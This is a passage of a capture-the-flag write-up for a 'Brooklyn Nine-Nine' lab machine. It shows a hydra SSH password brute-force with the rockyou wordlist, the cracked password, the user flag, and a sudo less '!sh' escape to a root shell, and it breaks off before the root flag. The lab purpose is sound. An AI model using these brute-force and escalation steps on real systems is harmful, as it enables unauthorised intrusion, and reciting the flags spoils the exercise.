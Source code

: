 I really dont like `Stenography` so we dont continue here. If you want the full puzzle you have to download the picture and try to get the hidden files out of it.



### Enumerate Port 22 (SSH) 

After reading the note from `Amy` we know that `jakes` password is potentially weak. Lets try to crack it.

I use for that `hydra`:

```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.195.140
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-18 15:12:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.195.140:22/
[22][ssh] host: 10.10.195.140   login: jake   password: 987654321

```

And after a short time we get the password `987654321`... Well done `jake`.

We can connect now via `ssh`:

`ssh jake@10.10.195.140`


And we can check the user profiles for the flag:
```bash
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee

```

User flag: `ee11cbb19052e40b07aac0ca060c23ee`



### Enumerate privileges


We check what we are allowed to do via `sudo -l`: 



Okay this seems very nice, we can just use `less` to get `root privileges`:

```bash
jake@brookly_nine_nine:/home/holt$ sudo /usr/bin/less /etc/hosts
```
Using `!sh` to spawn an interactive shell with root permissions. Lets grab the `root flag`:
